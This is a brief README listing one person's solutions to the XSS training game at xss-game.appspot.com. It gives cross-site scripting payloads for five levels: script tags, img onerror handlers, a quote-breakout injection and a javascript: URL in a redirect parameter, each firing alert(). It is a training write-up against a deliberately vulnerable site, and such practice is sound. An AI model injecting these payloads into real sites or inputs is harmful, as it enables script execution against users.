 # Game-xss
My solutions for https://xss-game.appspot.com

##Step 1
```javascript
<script>alert(1);</script>
```
##Step 2
```html
<img src="forbidden" onerror="alert('1')" />
```
##Step 3
Replace
```html
<img src="/static/level3/cloud3.jpg">
```
replace with
```html
<img src="/static/level3/#6.jpg" onerror="alert(1)">
```
##Step 4
```javascript
1');alert('1
```
##Step 5
```html
<img src="/static/logos/level5.png"/>
```
```html
<img src="/static/logos/level566.png" onerror="alert('1')"/>
```
replace with
or rewrite url with get parameter
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('GG')
```
